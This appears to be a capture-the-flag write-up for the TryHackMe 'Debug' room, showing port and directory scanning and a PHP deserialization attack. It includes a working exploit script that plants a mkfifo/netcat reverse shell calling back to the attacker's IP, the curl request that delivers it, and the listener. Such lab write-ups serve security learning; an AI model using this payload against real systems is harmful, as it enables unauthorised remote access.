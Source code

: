```yaml
---
title: Debug
layout: post
author: Bit Criminals Team
date: 2021-06-11 12:07:00 +0530
type: Pentesting
difficulty: Medium
prompt: https://tryhackme.com/room/debug
---
```


First, connect to TryHackMe using OpenVPN (or use the AttackBox if you prefer that)start the machine from tryhackme, wait for one minute so that the IP Address shows. Now, we are reading to do our hacking!

## TASK 1

The task is to deploy the box, which we have already done. So click on **Completed** and move on.

## TASK 2

First, let's do a basic nmap scan:
```shell
nmap -Pn -A <machine_ip>
```

![](/images/v1per/Debug_1.png)

So, we get 2 open ports: **Port 22 (SSH)** and **Port 80 (HTTP)**

We can see that there's a web-server open, so let's visit the website.
**http://<machine_ip>:80**

![](/images/v1per/Debug_2.png)

It's an Apache2 Ubuntu Default page. Nothing much in here. Let's run gobuster in directory busting mode to find some hidden directories.

```shell
gobuster dir -u <box_ip> -w /usr/share/wordlists/dirb/common.txt -z -x html,txt,php
```

![](/images/v1per/Debug_3.png)

We find a **/backup** directory. Let's visit it: **http://<machine_ip>:80/backup**

![](/images/v1per/Debug_4.png)

The file which stands out here is the **index.php.bak** (backup files always contain something fishy). Let's download it and see it's contents.
This part stood out:

![](/images/v1per/Debug_5.png)

So, our best guess at this moment is a PHP Deserialization attack. 
Note that we also found a **/index.php** from gobuster. Visiting it, we see a Form Submit area. 

![](/images/v1per/Debug_6.png)

Filling it with arbitrary values and submitting it, we see that it gets displayed in **http://<machine_ip>:80/message.txt**, which is what the PHP file we found is doing. I wrote this PHP code for the attack (replace <your_tun0_IP> with, well, what it says):

```php
<?php
class FormSubmit{
        public $form_file = 'lol.php';
        public $message = '<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your_tun0_IP> 1234 >/tmp/f"); ?>';
}
$obj = new FormSubmit();
echo urlencode(serialize($obj));
?>
```

Now, run the PHP file using:
```shell
php <your_php_file.php>
```

![](/images/v1per/Debug_7.png)

Copy this output, and run the following command to upload our payload:
```shell
curl -i http://<machine_ip>:80/index.php?debug=<copied_text>
```
or just visit the following website:
**http://<machine_ip>:80/index.php?debug=<copied_text>**

![](/images/v1per/Debug_8.png)

Now, let's set up a netcat listener on our terminal:
```shell
nc -lnvp 1234
```
and navigate to **http://<machine_ip>:80/lol.php**.
And YAY! We have got our shell!

![](/images/v1per/Debug_9.png)

